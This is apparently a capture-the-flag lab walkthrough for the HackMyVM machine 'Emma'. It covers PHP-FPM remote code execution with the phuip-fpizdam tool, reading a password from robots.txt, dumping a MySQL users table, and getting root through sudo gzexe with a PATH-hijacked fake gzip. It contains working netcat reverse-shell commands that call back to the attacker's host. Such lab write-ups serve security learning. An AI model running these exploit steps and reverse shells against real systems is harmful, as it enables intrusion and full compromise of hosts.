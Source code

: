 ```yaml
---
layout: post
title:  "Emma"
categories: [hackmyvm]
tags: [phuip-fpizdam, golang, database, gzexe]
---
```


You’ll find this vm here :  `https://hackmyvm.eu/machines/machine.php?vm=Emma`

## Directory scan
{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ dirb http://10.0.2.171
  ---- Scanning URL: http://10.0.2.171/ ----
  + http://10.0.2.171/index.php (CODE:200|SIZE:0)                                                                  
  + http://10.0.2.171/phpinfo.php (CODE:200|SIZE:58765)                                                            
  + http://10.0.2.171/robots.txt (CODE:200|SIZE:15)  
{% endhighlight %}


## Robots.txt

```
┌──(alienum㉿kali)-[~]
└─$ curl http://10.0.2.171/robots.txt                                               
itwasonlyakiss
```

## Set up golang

- sudo apt-get install golang
- go get github.com/neex/phuip-fpizdam
- export PATH=$PATH:$(go env GOPATH)/bin

## Run the script

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ phuip-fpizdam http://10.0.2.171/index.php
  2021/02/07 13:48:59 Base status code is 200
  2021/02/07 13:48:59 Status code 502 for qsl=1770, adding as a candidate
  2021/02/07 13:48:59 The target is probably vulnerable. Possible QSLs: [1760 1765 1770]
  2021/02/07 13:48:59 Attack params found: --qsl 1760 --pisos 42 --skip-detect
  2021/02/07 13:48:59 Trying to set "session.auto_start=0"...
  2021/02/07 13:48:59 Detect() returned attack params: --qsl 1760 --pisos 42 --skip-detect <-- REMEMBER THIS
  2021/02/07 13:48:59 Performing attack using php.ini settings...
  2021/02/07 13:48:59 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
  2021/02/07 13:48:59 Trying to cleanup /tmp/a...
  2021/02/07 13:48:59 Done!
{% endhighlight %}

## Reverse shell

- curl

```sh
┌──(alienum㉿kali)-[~]
└─$ curl http://10.0.2.171/index.php?a=/bin/sh+-c+'id;nc -e /bin/sh 10.0.2.15 4444'&
```

- listener

```sh
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from 10.0.2.171 [10.0.2.171] 43972
/usr/bin/script -qc /bin/bash /dev/null
www-data@emma:~/html$
```

## Found emma's ssh credentials

- cat /etc/passwd

```sh
www-data@emma:~$ cat /etc/passwd
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
```
- The database maybe contains important data

- MySQL root login

```sh
www-data@emma:~$ mysql -u root -pitwasonlyakiss
MariaDB [(none)]> show schemas;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| users              |
+--------------------+
MariaDB [(none)]> use users;
MariaDB [users]> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| users           |
+-----------------+
MariaDB [users]> select * from users;
+----+------+----------------------------------+
| id | user | pass                             |
+----+------+----------------------------------+
|  1 | emma | 5f****************************** |
+----+------+----------------------------------+
1 row in set (0.000 sec)
```

## Emma ssh login

```#!/bin/sh
┌──(alienum㉿kali)-[~]
└─$ ssh emma@10.0.2.171        
emma@10.0.2.171's password: 5f******************************

```

## Privileges Escalation

```#!/bin/sh
emma@emma:~$ sudo -l
Matching Defaults entries for emma on emma:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User emma may run the following commands on emma:
    (ALL : ALL) NOPASSWD: /usr/bin/gzexe
emma@emma:~$ ls
flag.sh  user.txt  who  who.c
emma@emma:~$ ./who
Im
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(emma)
But now Im
uid=1000(emma) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(emma)
emma@emma:~$ stat who
  File: who
  Size: 16760           Blocks: 40         IO Block: 4096   regular file
Device: 801h/2049d      Inode: 146490      Links: 1
Access: (6750/-rwsr-s---)  Uid: (    0/    root)   Gid: ( 1000/    emma)
```

```#!/bin/sh

emma@emma:~$ cat who.c
#include <stdio.h>
#include <stdlib.h>
void main(){
setuid(0);
setgid(0);
printf("Im \n");
system("/bin/id");
setuid(1000);
setgid(1000);
printf("But now Im \n");
system("/bin/id");
}

emma@emma:~$ sudo -u root /usr/bin/gzexe /bin/id
/bin/id:         59.2%
emma@emma:~$ cd /tmp
emma@emma:/tmp$ echo "nc -e /bin/sh 10.0.2.15 4444" > gzip
emma@emma:/tmp$ chmod +x gzip
emma@emma:/tmp$ export PATH=/tmp:$PATH
emma@emma:/tmp$ cd
emma@emma:~$ ./who
Im
(UNKNOWN) [10.0.2.15] 4444 (?) : Connection refused
Cannot decompress /usr/bin/id
```

- listener

```#!/bin/sh
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from 10.0.2.171 [10.0.2.171] 43986
id
whoami
root
ls
flag.sh
user.txt
who
who.c
cd /root
ls
flag.sh
root.txt
```
